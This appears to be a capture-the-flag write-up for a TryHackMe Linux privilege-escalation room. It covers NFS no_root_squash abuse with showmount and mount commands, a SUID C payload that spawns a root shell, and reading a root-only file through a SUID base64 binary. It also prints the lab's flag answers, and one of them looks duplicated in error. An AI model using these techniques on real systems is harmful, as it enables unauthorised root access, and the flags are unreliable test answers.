 #### Theory Behind NFS
- **Normally NFS provides `nfsnobody`(if it is enabled) it means that if a root user try to force root privilege to the files of NFS the `nfsnobody` will decrement the users privilege to a less powerful situation so that the user can't change or do something big with the NFS**
- **if the `no_root_squash` is enabled it means the root user can keep all the power**
- **If the NFS share is writable, the attacker can create a special file (an executable) with a special permission called the SUID bit. When this file is run, it acts with the privileges of the file's owner—root in this case.**
- **If the `no_root_squash` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.**

#### Process
- **`showmount -e <target-ip>` this command will show that how many ways/directories/paths you can mount your machine with the target to avoid permissions**
- **`mount -o rw <target-ip>:/<directory from showmount> <directory you want to mount>`**

    - **Example: `mount -o rw 10.10.56.220:/tmp /tmp/backupsonattackermachine`**

- **Prepare a payload for the exploitation which will have `+xs` permission**

**Payload:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main (void) {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	return 0;

}
```
- **OR you can use msfvenom to create payloads**

### Capstone Challenge

> ### flag2.txt : `THM-168824782390238`

- I'm Approaching it because I found `SUID bit` for `base64`
```sh
[missy@ip-10-10-1-102 home]$ ls
leonard  missy  rootflag
[missy@ip-10-10-1-102 home]$ cd rootflag/
bash: cd: rootflag/: Permission denied
[missy@ip-10-10-1-102 home]$ LFILE=/home/rootflag/flag2.txt
[missy@ip-10-10-1-102 home]$ which base64
/usr/bin/base64
[missy@ip-10-10-1-102 home]$ /usr/bin/base64 "$LFILE" | base64 --decode
THM-168824782390238

```
> ### flag1.txt : `THM-168824782390238
